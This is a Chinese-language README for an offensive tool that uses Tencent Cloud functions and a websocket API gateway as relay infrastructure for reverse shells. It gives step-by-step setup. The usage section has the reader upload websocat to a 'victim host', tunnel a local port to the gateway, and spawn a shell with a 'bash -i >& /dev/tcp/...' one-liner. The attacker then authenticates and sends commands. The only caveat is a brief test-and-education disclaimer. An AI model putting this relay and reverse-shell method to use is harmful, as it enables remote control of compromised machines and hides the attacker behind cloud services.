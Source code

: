 # ReverseShell
通过云函数的 websocket API 网关实现接收反弹 Shell 的功能。

## 项目配置

### 数据库配置
本项目需要一个允许外部连接的 MySQL 数据库。数据库配置语句如下：
```sql
create database SCF;
use SCF;
create table Connections (
    ConnectionID varchar(128) NOT NULL,
    Date datetime,
    is_user tinyint
)
```

修改 src 文件夹内所有文件中的如下变量
```
db_host = 数据库 host
db_port = 数据库端口
db_user = 数据库用户
db_pass = 数据库密码

push_back_host = 等后续配置 API 网关后填写
```

### 函数配置
1. 参照 [HTTP 代理配置](https://github.com/shimmeris/SCFProxy/tree/main/HTTP) 新建三个自定义函数，分别命名为 register, forward, delete。
2. 进入 [API 网关配置](https://console.cloud.tencent.com/apigateway/service)，新建如下配置服务

![服务](img/service.png)

3. 新建 API，前端类型选择 WS，其余默认，进入下一步
4. 开启设置注册函数、清理函数。后端类型，函数，后端超时时间分别配置为如下：

![函数配置](img/function_config.png)

5. 点击立即完成，发布服务
6. 点击生成的 api，进入信息展示页面获取如下信息，将推送地址填入文件中的 `push_back_host` 变量。

![信息](img/info.jpg)

7. 修改 transmission.py 中的 `PASSWORD` 变量，该变量将用于客户端连接 ws 后将连接认证为用户。
7. 分别复制三个文件的内容到对应的云函数中并部署。

## 使用方式
需要借助 [websocat](https://github.com/vi/websocat)。

1. 上传 websocat（或远程下载）到受害主机
2. 执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3. 反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`（2、3 两步也可利用 & 合并成一条命令）

![反弹 shell](img/reverse_shell.jpg)

4. 攻击者连接 ws://apigate，输入 auth PASSWORD 认证为用户，之后正常发送命令即可。
![执行命令](img/cmd.jpg)

ws 连接后可执行的命令：
```shell
auth PASSWORD 将当前连接认证为用户，只有用户能接收未认证连接发送的信息
close 关闭当前连接
closeall 关闭目前存在的所有连接
```

## 免责申明
此工具仅供测试和教育使用，请勿用于非法目的。

